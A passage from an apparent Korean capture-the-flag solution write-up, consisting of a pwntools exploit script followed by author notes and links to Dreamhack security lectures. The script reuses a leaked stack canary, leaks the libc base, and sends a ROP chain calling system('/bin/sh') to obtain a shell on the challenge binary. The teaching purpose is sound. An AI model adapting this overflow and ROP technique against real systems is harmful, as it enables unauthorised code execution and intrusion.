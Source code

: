 ```python
  
p.sendafter(b'Name? ', b'a' * (buf_len - 1) + p64(canary) + p64(stack) + int.to_bytes(0xa5, 1, 'little'))
p.sendlineafter(b'> ', b'1')
  
p.sendafter(b'Name? ', b'a' * (buf_len + 0x20 - 1))
res = p.recvline().split(b',')[0][(buf_len + 0x20 - 1):]
libc_base = u64(res + b'\x00' * 2) - (0x7ffff7db7d90 - 0x7ffff7d8e000) # gdb로 분석
print("libc_base = " + hex(libc_base))
p.sendlineafter(b'> ', b'1')
  
for _ in range(10):
	p.sendafter(b'Name? ', b'a')
	p.sendlineafter(b'> ', b'1')
  
ret = libc_base + 0x0000000000029139
pop_rdi = libc_base + 0x000000000002a3e5
system = libc_base + libc.symbols['system']
bin_sh = libc_base + list(libc.search(b"/bin/sh"))[0]
  
p.sendafter(b'Name? ', b'a' * (buf_len - 1) + p64(canary) + p64(stack) + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system))
p.sendlineafter(b'> ', b'1')
  
p.interactive()

p.close()
```

## 주의할 점

- secret key를 얻을 때 두 바이트 브루트포싱을 해야 할 수도 있지 않냐는 생각이 들 수 있습니다. 물론 실제 상황에서는 그럴 수 있겠지만 한 바이트 브루트포싱을 의도로 하고 문제를 제작하였습니다.
- Integer Overflow를 실행시키기 위한 코드는 정해져 있지 않으며, 10번의 작동으로 취약점을 유발시킬 수 있음을 알아내기만 하면 됩니다.

## 레퍼런스

- [RELRO](https://dreamhack.io/lecture/courses/99)
- [카나리(Canary)](https://dreamhack.io/lecture/courses/112)
- [Non-Executable stack (NX)](https://dreamhack.io/lecture/courses/50)
- [Position Independent Executable (PIE)](https://dreamhack.io/lecture/courses/113)
- [Address Space Layout Randomization (ASLR)](https://dreamhack.io/lecture/courses/85)
- [스택 버퍼 오버플로우(Stack Buffer Overflow)](https://dreamhack.io/lecture/courses/60)
- [Integer-Overflow](https://learn.dreamhack.io/118#1)
- [ctypes](https://docs.python.org/ko/3/library/ctypes.html)